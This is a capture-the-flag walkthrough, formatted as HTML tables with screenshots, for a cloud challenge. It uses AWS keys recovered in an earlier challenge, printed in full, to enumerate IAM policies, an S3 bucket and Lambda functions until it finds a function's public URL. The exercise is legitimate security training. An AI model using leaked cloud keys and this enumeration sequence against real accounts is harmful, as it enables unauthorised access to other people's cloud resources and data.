 # Exploitation Via AWS CLI

<table class=MsoTableGrid border=1 cellspacing=0 cellpadding=0 width=786
 style='width:589.5pt; margin-xxxleft:-63.25pt;border-collapse:collapse;border:
 none'>
 <tr>
  <td width=786 colspan=2 valign=top style='width:589.5pt;border:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt'>
  <p class=MyNormalStyle><img border=0 width=19 height=20 id="Picture 56"
  src="../../images/blog_images/image188.png"><a
  name="_Hlk123467511">Exploitation via AWS
  CLI </a>
   &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
  <img
  border=0 width=27 height=25 id="Picture 488"
  src="../../images/blog_images/image039.png">Cloud
  Ring 
   &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
  <img border=0
  width=25 height=24 id="Picture 48"
  src="../../images/blog_images/image203.png"
  alt="A picture containing clipart&#10;&#10;Description automatically generated">Sulfrod</p>
  </td>
 </tr>
 <tr style='height:53.25pt'>
  <td width=84 rowspan=2 valign=top style='width:63.0pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:53.25pt'>
  <p class=MsoNormal style=' margin-xxxbottom:0in;line-height:normal'><img
  border=0 width=69 height=135 id="Picture 49"
  src="../../images/blog_images/image204.png"
  alt="A person in a garment&#10;&#10;Description automatically generated with low confidence"></p>
  </td>
  <td width=702 valign=top style='width:526.5pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt;height:53.25pt'>
  <p class=MsoNormal style=' margin-xxxbottom:0in;line-height:normal'>
  <img src="../../images/blog_images/image205.png"
  alt="Graphical user interface, text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr style='height:35.25pt'>
  <td width=702 valign=top style='width:526.5pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt;height:35.25pt'>
  <p class=MyNormalStyle>Hints :<br>
  AWS <a
  href="https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html">inline
  policies</a> pertain to one identity while managed policies can be attached
  to many identities.</p>
  </td>
 </tr>
 </table>



<table class=MsoTableGrid border=2 cellspacing=0 cellpadding=0 width=786
 style='width:589.5pt; margin-xxxleft:-63.25pt;border-collapse:collapse;border:
 none'>
 <tr style='height:35.25pt'>
  <td width=786 colspan=2 valign=top style='width:589.5pt;border:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt'>
  <p class=MyNormalStyle>We have AWS credentials from the previous challenge
  Trufflehog Search<br>
  aws_access_key_id=&quot;AKIAAIDAYRANYAHGQOHD&quot;,</p>
  <p class=MyNormalStyle>aws_secret_access_key=&quot;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&quot;</p>
  </td>
 </tr>
 <tr style='height:13.0pt'>
  <td width=786 colspan=2 valign=top style='width:589.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:13.0pt'>
  <p class=TableRowBold>Configure aws cli with the above credentials</p>
  </td>
 </tr>
 <tr style='height:13.0pt'>
  <td width=786 colspan=2 valign=top style='width:589.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:13.0pt'>
  ```python
  aws configure
  ```
  </td>
 </tr>
 <tr style='height:13.0pt'>
  <td width=786 colspan=2 valign=top style='width:589.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:13.0pt'>
  <p class=MsoNormal style=' margin-xxxbottom:0in;line-height:normal'><img
  border=0 width=786 height=235 id="Picture 51"
  src="../../images/blog_images/image206.png"
  alt="A screenshot of a computer&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr style='height:13.0pt'>
  <td width=786 colspan=2 valign=top style='width:589.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:13.0pt'>
  <p class=TableRowBold>Get the caller identity</p>
  ```python
  aws sts get-caller-identity
  ```
  </td>
 </tr>
 <tr style='height:13.0pt'>
  <td width=786 colspan=2 valign=top style='width:589.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:13.0pt'>
  <p class=MyCodeStyle><img border=0 width=431 height=98 id="Picture 52"
  src="../../images/blog_images/image207.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr style='height:13.0pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:13.0pt'>
  <p class=TableRowBold>"haug" is the user. Get the policy attached to this user.</p>
  </td>
 </tr>
 <tr style='height:13.0pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:13.0pt'>
  ```python
  aws iam list-attached-user-policies --user-name haug
  ```
  </td>
 </tr>
 <tr style='height:13.0pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:13.0pt'>
  <p class=MyCodeStyle><img src="../../images/blog_images/image208.png"
  alt="A screenshot of a computer&#10;&#10;Description automatically generated with medium confidence"></p>
  </td>
 </tr>
</table>

<table class=MsoTableGrid border=1 cellspacing=0 cellpadding=0 align=left
 width=800 style='width:600.3pt;margin-xxxleftxxx:6.75pt;  margin-xxxleftyyy:6.75pt'>
 <tr style='height:15.85pt'>
  <td width=786 valign=top style='width:589.25pt;border:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=TableRowBold>Get the details of the policy TIER1_READONLY_POLICY attached to the user.</p>
  </td>
  
 </tr>
 <tr style='height:15.85pt'>
  <td width=786 valign=top style='width:589.25pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  ```python
  aws iam get-policy --policy-arn arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY
  ```
  </td>
  
 </tr>
 <tr style='height:15.85pt'>
  <td width=786 valign=top style='width:589.25pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyCodeStyle><img src="../../images/blog_images/image209.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
  
 </tr>
 <tr style='height:15.85pt'>
  <td width=800  valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=TableRowBold>Get the default version of the policy  TIER1_READONLY_POLICY</p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800  valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  ```python
  aws iam get-policy-version --policy-arn arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY --version-id v1
  ```
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800  valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyCodeStyle><img src="../../images/blog_images/image210.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800  valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyNormalStyle>Get the inline policy attached to the user</p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  ```python
  aws iam list-user-policies --user-name haug
  ```
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyCodeStyle><img src="../../images/blog_images/image211.png"
  alt="A screenshot of a computer&#10;&#10;Description automatically generated with medium confidence"></p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyNormalStyle>The policy attached to the user is S3Perms. Get
  details of this policy.</p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  ```python
  aws iam get-user-policy --user-name haug --policy-name S3Perms
  ```
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyCodeStyle><img src="../../images/blog_images/image212.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=TableRowBold>The earlier command discolosed name of an s3 bucket
  named "smogmachines3". List its objects.</p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  ```python
  aws s3api list-objects --bucket smogmachines3
  ```
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyCodeStyle><img src="../../images/blog_images/image213.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=TableRowBold>Tha attached user policy provided us lambda privileges. List all the lamda functions.</p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  ```python
  aws lambda list-functions
  ```
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=TableRowBold>Lambda functions can have public URLs from which they
  are directly accessible. Use AWS CLI to get the configuration containing the
  public URL.</p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=TableRowBold>First, we get the function details</p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  ```python
  aws lambda list-functions | head -10
  ```
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyCodeStyle><img border=0 width=770 height=180 id="Picture 63"
  src="../../images/blog_images/image214.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=TableRowBold>Get the configuration containing the public URL of the
  lambda function "smogmachine_lambda"</p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  ```python
  aws lambda get-function-url-config --function-name  smogmachine_lambda
  ```
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyCodeStyle><img border=0 width=730 height=179 id="Picture 454"
  src="../../images/blog_images/image215.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=TableRowBold><b>Lambda
  function URL : </b><a
  href="https://rxgnav37qmvqxtaksslw5vwwjm0suhwc.lambda-url.us-east-1.on.aws/"><b>https://rxgnav37qmvqxtaksslw5vwwjm0suhwc.lambda-url.us-east-1.on.aws/</b></a></p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=TableRowBold>We submit the answer and the objective is now completed. And we get 25 coins as
  well</p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyCodeStyle><img border=0 width=317 height=48 id="Picture 462"
  src="../../images/blog_images/image216.png"
  alt="A picture containing text&#10;&#10;Description automatically generated"><img
  border=0 width=282 height=48 id="Picture 473"
  src="../../images/blog_images/image217.png"></p>
  </td>
 </tr>
 <tr style='height:15.85pt'>
  <td width=800 colspan=2 valign=top style='width:600.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:15.85pt'>
  <p class=MyCodeStyle align=center style='text-align:center'><b><span
  style='font-size:11.0pt;font-family:"Calibri",sans-serif'>At this point we
  have </span></b><b><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'>retrieved
  the cloud ring</span></b></p>
  <p class=MyCodeStyle align=center style='text-align:center'><b><span
  style='font-size:11.0pt;font-family:"Calibri",sans-serif'><img border=0
  width=535 height=94 id="Picture 481"
  src="../../images/blog_images/image218.png"></span></b></p>
  </td>
 </tr>
</table>